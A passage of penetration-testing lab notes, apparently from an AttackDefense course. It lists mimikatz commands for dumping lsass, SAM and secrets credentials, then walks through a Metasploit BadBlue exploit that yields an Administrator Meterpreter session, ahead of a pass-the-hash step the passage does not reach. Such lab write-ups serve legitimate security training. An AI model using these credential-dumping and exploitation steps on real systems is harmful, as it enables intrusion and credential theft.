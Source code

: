 - Dump the cache of the `lsass` process

```bash
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

------

## Lab 5 - Pass-the-Hash with PsExec

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 4
>
> - Target IP: `10.2.28.123`
> - Check the [🔬Lab 3 - Pass-the-hash lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-3-pass-the-hash) for full description
> - Metasploit **PsExec** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.28.123
setg RHOST 10.2.28.123
workspace -a PsExec
db_nmap -sV 10.2.28.123
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```
